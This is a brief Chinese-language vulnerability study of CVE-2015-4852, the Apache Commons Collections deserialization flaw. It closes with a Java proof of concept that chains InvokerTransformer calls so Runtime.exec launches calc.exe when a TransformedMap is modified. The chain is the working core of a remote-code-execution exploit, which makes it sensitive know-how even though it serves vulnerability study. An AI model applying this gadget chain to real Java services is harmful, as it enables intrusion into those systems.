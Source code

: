 # 反序列化漏洞 CVE-2015-4852

## 漏洞概述

​	主要是org.apache.commons.collections存在潜在的远程代码执行漏洞，应用的是java的反序列化部分机制的问题。在Java反序列化中，对于传入的序列化数据没有进行安全性检查，将恶意的TransformedMap序列化，可能会导致远程命令执行。



## 基本信息

​	org.apache.commons.collections 是一个java的集成框架，是对java.util的扩展封装。在使用这个库的时候，会产生远程代码执行危险。

​	Java的反序列化与序列化操作存在隐含的危险，反序列化时需要从文件中读取数据还原成类，因此会调用readObject函数。java在反序列化时，会先调用被序列化类重写的readObject方法。也就是说，如果我们构造的恶意的类对象，其中的readObject函数中存在危险操作就可以执行。这个漏洞就是使用org.apache.commons.collections中的几个函数通过这种方式来进行payload构造。



## POC

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.*;


public class TranformerDemo {

    public static void main(String[] args){

        ChainedTransformer chain = null;
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer( Runtime.class ),
                new InvokerTransformer( "getMethod", new Class[]{ String.class, Class[].class},
                        new Object[]{ "getRuntime", null} ),
                new InvokerTransformer( "invoke", new Class[]{ Object.class, Object[].class },
                        new Object[]{ null, null}),
                new InvokerTransformer( "exec", new Class[]{ String.class},
                        new Object[] { "calc.exe" }) };
        chain = new ChainedTransformer( transformers );

        Map m = new HashMap();
        m.put( "1", "1" );
        Map map = TransformedMap.decorate(m, null, chain );
        map.put( "a", "b" );

    }
}
```
